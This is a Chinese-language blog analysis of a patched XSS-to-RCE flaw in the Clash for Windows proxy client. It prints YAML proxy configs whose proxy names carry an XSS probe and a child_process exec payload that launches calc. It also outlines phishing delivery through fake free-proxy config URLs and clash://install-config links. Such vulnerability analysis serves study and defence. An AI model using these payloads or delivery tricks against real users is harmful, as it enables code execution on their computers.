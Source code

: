 # Clash For Windows Rce

## 前言

23号Clash for windows爆出了rce的漏洞，我听到的时候也是一懵，因为clash for windows是自己一直在用的代理客户端，而且相信使用windows的大多数人的代理客户端用的也都是clash for windows，涉及人数也还是比较广的，所以立刻查找了相关的资料来了解这个rce。

## Clash for windows简介

Clash 是一个使用 Go 语言编写，基于规则的跨平台代理软件核心程序，而Clash for Windows 是目前在 Windows 上唯一可用的图形化 Clash 分支。通过 Clash API 来配置和控制 Clash 核心程序，便于用户可视化操作和使用。其支持众多协议，例如Vmess, Shadowsocks, Snell , SOCKS5 , ShadowsocksR等，是一款非常强大的代理客户端：

![image-20220226183726058](Clash-For-Windows-Rce.assets/image-20220226183726058.png)

至于代理是干什么的，就不必多说了hhh。



## 漏洞分析

漏洞说白了就是开发没有对于输入进行合理的过滤导致了XSS到RCE的发生。

我对于这类型的情况最早的了解是在大家都在用的蚁剑的RCE，具体可以参考evoa的文章：[蚁剑客户端RCE的挖掘过程及Electron安全](https://evoa.me/archives/3/ )

简单来说就是，蚁剑是基于Electron开发的，而Electron应用最大的问题就是从XSS到RCE的攻击。之前的蚁剑就是因为没有对输入进行合适的过滤导致了xss到rce：

![image.png](Clash-For-Windows-Rce.assets/1553600099332-4357473e-345e-4cd3-9d3a-ee9823898795.png#align=left&display=inline&height=800&name=image.png&originHeight=1600&originWidth=2090&size=1120369&status=done&width=1045)

而Clash for windows的开发显然也在这方面没有做好。

这里以我自己的代理的yml文件为例：

![image-20220226191018872](Clash-For-Windows-Rce.assets/image-20220226191018872.png)

在Proxies中展示是这样的：

![image-20220226191043516](Clash-For-Windows-Rce.assets/image-20220226191043516.png)

可以发现，proxies的name，还有proxy-groups的name都被展示到了前端，是否存在xss漏洞呢？本地写1个yml文件来测试一下：

```yml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: ':9090'
proxies:
    - { name: <img src =# onerror=alert(1)>, type: vmess, server: 123, port: '29999', uuid: B00EC15A-B535-411D-95D6-CAEA028C477F, alterId: 0, cipher: auto, udp: false }
proxy-groups:
    - { name: '🚀 节点选择', type: select, proxies: [<img src =# onerror=alert(1)>] }

```

选择：

![image-20220226191451528](Clash-For-Windows-Rce.assets/image-20220226191451528.png)

切到Proxies，弹窗，说明XSS存在：

![image-20220226191527393](Clash-For-Windows-Rce.assets/image-20220226191527393.png)

改成rce：

```yml
port: 7890
socks-port: 7891
allow-lan: true
mode: Rule
log-level: info
external-controller: ':9090'
proxies:
    - { name: <img src=# onerror="require('child_process').exec('calc');">, type: vmess, server: 123, port: '29999', uuid: B00EC15A-B535-411D-95D6-CAEA028C477F, alterId: 0, cipher: auto, udp: false }
proxy-groups:
    - { name: '🚀 节点选择', type: select, proxies: [<img src=# onerror="require('child_process').exec('calc');">] }

```

成功弹出计算器：

![image-20220226191923120](Clash-For-Windows-Rce.assets/image-20220226191923120.png)

## 利用

乍一看这似乎是self-xss，但是要知道配置文件要么是自己写，要么是直接download的：

![image-20220226192531010](Clash-For-Windows-Rce.assets/image-20220226192531010.png)

因为真正的会去学习自己写配置文件的人可能只有非常小的一部分，所以大部分的代理自身提供了clash for windows的配置下载url，比如我的代理：

![image-20220226192807839](Clash-For-Windows-Rce.assets/image-20220226192807839.png)

因此此漏洞以后更多可能会在钓鱼中被利用，比如假冒成免费的代理供应商，总会有人贪图免费的代理然后去clash for windows上下载对应的url然后使用导致了rce。



另外一种利用就是issue中提到的比如这样的`clash://install-config?url=http://xxx/1.cfg`

如果我把恶意的配置文件写到了服务器上，如果受害者的浏览器点击了这个链接就会自动打开clash for windows来下载此配置文件并使用，唯一的问题可能就是，会有提示：

![image-20220226193059391](Clash-For-Windows-Rce.assets/image-20220226193059391.png)

能想到的利用方式可能就是用于钓鱼网站了，比如302跳转的网站，点进去就自动跳转到`clash://`这样的，一旦点击者没有安全意识的话，很容易会中招。

## 影响版本

根据github上issue的说法以及releases等的说法，真正的修复了这个XSS漏洞应该是在[v 0.19.10](https://github.com/Fndroid/clash_for_windows_pkg/releases/tag/0.19.10)，也就是说在此版本之前的Clash for windows都存在RCE漏洞，非常危险。

## 参考

https://github.com/Fndroid/clash_for_windows_pkg/issues/2710
